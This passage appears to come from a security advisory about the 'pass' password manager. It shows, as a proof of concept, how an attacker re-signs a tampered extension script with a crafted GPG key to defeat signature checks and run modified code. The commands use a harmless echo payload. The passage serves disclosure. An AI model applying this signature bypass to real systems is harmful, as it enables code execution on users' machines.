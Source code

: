 ## Proof of concept: Remote code execution

We continue the above proof of concept and extend the attack to remote
code execution through extension scripts.

### Setup

The following steps enable extension support and set up a new extension `foo`.

```
$ export PASSWORD_STORE_ENABLE_EXTENSIONS=true
$ cat ~/.password-store/.extensions/foo.bash
#!/bin/sh
echo my good extension
$ chmod +x ~/.password-store/.extensions/foo.bash
$ gpg -u $PASSWORD_STORE_SIGNING_KEY --detach-sign ~/.password-store/.extensions/foo.bash
$ pass foo
my good extension
```

### Preparing the attack

Now the attacker modifies the script:

```
$ sed -i s/good/bad/ ~/.password-store/.extensions/foo.bash
```

### Demonstrating integrity protection

```
$ pass foo
Signature for /home/marcus/.password-store/.extensions/foo.bash is invalid.
```

### Circumventing integrity protection

The attacker can simply re-sign the extension with the crafted key.

```
$ gpg -u $ATTACKER_KEY --detach-sign ~/.password-store/.extensions/foo.bash 
File '/home/marcus/.password-store/.extensions/foo.bash.sig' exists. Overwrite? (y/N) y
```

### Demonstrating remote code execution

```
$ pass foo
my bad extension
```

## Missing integrity protection for passwords

As shown above, the integrity protection for configuration files and
extension scripts in `pass` is vulnerable. However, this is a simple
bug and easy to fix.
